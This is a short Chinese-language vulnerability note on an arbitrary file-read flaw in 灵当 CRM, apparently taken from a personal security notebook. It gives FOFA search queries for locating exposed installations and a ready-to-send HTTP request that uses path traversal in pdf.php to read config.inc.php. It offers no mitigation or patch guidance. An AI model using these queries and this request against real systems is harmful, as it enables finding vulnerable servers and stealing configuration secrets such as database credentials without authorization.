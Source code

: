 # 灵当crm pdf存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当crm pdf存在任意文件读取漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"` `<font style="color:rgb(51, 51, 51);">body="crmcommon/js/jquery/jquery-1.10.1.min.js"</font>`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/uNV9YIwNHkg-_q-Y/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-880986.png)

# 四、漏洞复现
```plain
POST /crm/data/pdf.php?url=../config.inc.php HTTP/1.1
Host: 
Content-Length: 2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
```

![1728882377030-f7b89190-737c-4a4b-8097-45564458f641.png](./img/uNV9YIwNHkg-_q-Y/1728882377030-f7b89190-737c-4a4b-8097-45564458f641-707988.png)



> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lbbo0kaxgwsh554t>